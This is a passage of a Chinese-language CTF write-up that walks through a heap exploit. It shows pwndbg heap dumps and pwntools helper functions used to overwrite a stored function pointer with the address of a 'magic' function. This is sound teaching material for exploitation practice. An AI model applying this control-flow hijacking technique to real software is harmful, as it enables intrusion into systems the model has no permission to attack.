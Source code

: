 ## payload分析
我们的目标是修改堆中的0x4008b1（goodbye_message）为magic函数地址：

```powershell
--------------------------------------------------------------------------
修改之前：
pwndbg> x/30gx 0x603000
0x603000:	0x0000000000000000	0x0000000000000021 #func_start_malloc_chunk
0x603010:	0x0000000000400896	0x00000000004008b1
					#hello_message      #goodbye_message
--------------------------------------------------------------------------
我们所期望的：
pwndbg> x/30gx 0x603000
0x603000:	0x0000000000000000	0x0000000000000021 #func_start_malloc_chunk
0x603010:	0x0000000000400896	0x0000000000400d49
					#hello_message      #magic函数
```

```python
def cmd(choice):
  p.sendlineafter('',str(choice))
  
def create(size,content):
  cmd(2)
  p.sendlineafter('item name:',str(size))
  p.sendlineafter('item:',content)

def edit(index,size,content):
  cmd(3)
  p.sendlineafter('of item:',str(index))
  p.sendlineafter('item name:',str(size))
  p.sendlineafter('the item:',content)

def delete(index):
  cmd(4)
  p.sendlineafter('of item:',str(index))

def quit():
  cmd(5)
```

首先来看第一部分的payload，这些代码的主要功能是自动化执行程序的功能。也是exp中最基础的部分，没有什么好说的。

```python
create(0x30, "aaaa")
```

gdb时程序的内存分布如下：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1605170484395-adbcda44-2fa5-4dfc-b030-7d0c25e8bd9b.png)

执行完上面的payload之后堆块的状况如下：

```python
pwndbg> x/30gx 0xe80000
0xe80000:	0x0000000000000000	0x0000000000000021 #func_start_malloc_chunk
0xe80010:	0x0000000000400896	0x00000000004008b1
    		#hello_message      #goodbye_message
0xe80020:	0x0000000000000000	0x0000000000000041 #chunk0（malloc(0x30)）
0xe80030:	0x0000000a61616161	0x0000000000000000
0xe80040:	0x0000000000000000	0x0000000000000000
0xe80050:	0x0000000000000000	0x0000000000000000
0xe80060:	0x0000000000000000	0x0000000000020fa1 #top_chunk
0xe80070:	0x0000000000000000	0x0000000000000000
0xe80080:	0x0000000000000000	0x0000000000000000
0xe80090:	0x0000000000000000	0x0000000000000000
0xe800a0:	0x0000000000000000	0x0000000000000000
```